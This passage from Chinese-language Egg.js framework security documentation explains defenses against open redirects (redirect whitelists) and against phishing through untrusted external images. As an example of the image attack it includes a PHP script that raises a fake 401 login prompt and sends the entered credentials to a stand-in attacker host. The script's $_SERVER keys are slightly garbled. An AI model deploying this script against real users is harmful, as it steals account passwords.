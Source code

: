 ### 防范方式

- 若跳转的 url 事先是可以确定的，包括 url 和参数的值，则可以在后台先配置好，url 参数只需传对应 url 的索引即可，通过索引找到对应具体 url 再进行跳转；
- 若跳转的 url 事先不确定，但其输入是由后台生成的（不是用户通过参数传人），则可以先生成好跳转链接然后进行签名；
- 若 1 和 2 都不满足，url 事先无法确定，只能通过前端参数传入，则必须在跳转的时候对 url 进行按规则校验：判断 url 是否在应用授权的白名单内。

框架提供了安全跳转的方法，可以通过配置白名单避免这种风险。

* `ctx.redirect(url)` 如果不在配置的白名单内，则禁止。
* `ctx.unsafeRedirect(url)` 一般不建议使用，明确了解可能带来的风险后使用。

安全方案覆盖了默认的`ctx.redirect`方法，所有的跳转均会经过安全域名的判断。

用户如果使用`ctx.redirect`方法，需要在应用的配置文件中做如下配置：

```js
// config/config.default.js
exports.security = {
  domainWhiteList:['.domain.com'],  // 安全白名单，以 . 开头
};
```

若用户没有配置 `domainWhiteList` 或者 `domainWhiteList`数组内为空，则默认会对所有跳转请求放行，即等同于`ctx.unsafeRedirect(url)`

### 图片钓鱼

如果可以允许用户向网页里插入未经验证的外链图片，这有可能出现钓鱼风险。

比如常见的 `401钓鱼`, 攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。
通常这种情况会出现在`<img src=$url />`中，系统不对`$url`是否在域名白名单内进行校验。

攻击者可以在自己的服务器中构造以下代码：

401.php：作用为弹出 401 窗口，并且记录用户信息。

```php
  <?php
      header('WWW-Authenticate: Basic realm="No authorization"');
      header('HTTP/1.1 401 Unauthorized');
          $domain = "http://hacker.com/fishing/";
          if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
                  header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
          }
  ?>
```

之后攻击者生成一个图片链接`<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" /> `。

当用户访问时，会弹出信息让用户点击，用户输入的用户名及密码会被黑客的服务器偷偷记录。

### 防范方式

框架提供了 `.surl()` 宏做 url 过滤。

用于在 html 标签中中要解析 url 的地方（比如 `<a href=""/><img src=""/>`），其他地方不允许使用。


[egg-view-nunjucks]: https://github.com/eggjs/egg-view-nunjucks